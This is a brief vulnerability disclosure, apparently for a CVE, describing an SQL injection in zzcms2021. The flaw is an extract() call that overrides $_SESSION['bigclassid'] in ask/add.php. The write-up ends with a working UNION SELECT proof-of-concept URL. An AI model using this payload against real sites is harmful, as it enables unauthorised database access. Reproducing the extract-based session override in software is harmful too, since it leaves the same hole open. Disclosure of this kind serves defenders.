 + version: zzcms2021
+ source: http://www.zzcms.net/about/6.htm
+ issue: sql injection

# Position
in `ask/add.php` line 91
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217222912.png)

`$_SESSION["bigclassid"]` is an injection point,and `$row["classid"]` is output to the web page 

in `inc/stopsqlin.php`
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217223618.png)

function `zc_check` filters `$_GET` and `$_POST` ,and then executes `@extract($_POST);@extract($_GET);`,so we can use the `extract` function to override `$_SESSION["bigclassid"]`

# Poc
`/ask/add.php?_SESSION[bigclassid]=0 union select user(),2,3,4,5,6,7,8,9,10,11--+`
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224442.png)